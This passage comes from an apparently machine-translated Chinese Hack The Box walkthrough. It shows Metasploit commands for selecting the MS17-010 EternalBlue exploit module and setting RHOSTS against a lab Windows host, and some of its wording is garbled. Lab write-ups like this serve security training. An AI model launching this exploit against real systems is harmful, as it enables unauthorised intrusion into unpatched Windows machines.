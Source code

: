 ```
run
```

可以看到主机很可能容易受到 MS17-010 的攻击！

现在让我们用以下命令来检查漏洞

```
use 2
```

或者命令

```
exploit/windows/smb/ms17_010_eternalblue
```

![Screenshot-2020-08-17-at-21.31.53](img/d20d2a6305bf38f2608a9529bfb16399.png)

我们需要为 RHOSTS 设置选项

![Screenshot-2020-08-17-at-21.31.59](img/e803306f2281c347543a7921113b176a.png)

我的成绩是 10.10.14.24。你需要用你自己的主机来设置它。你可以在这里查看你的[。](https://www.hackthebox.eu/home/htb/access)

![Screenshot-2020-08-17-at-21.30.21](img/86154e4acfebb40e0b1fc25ece416f6c.png)
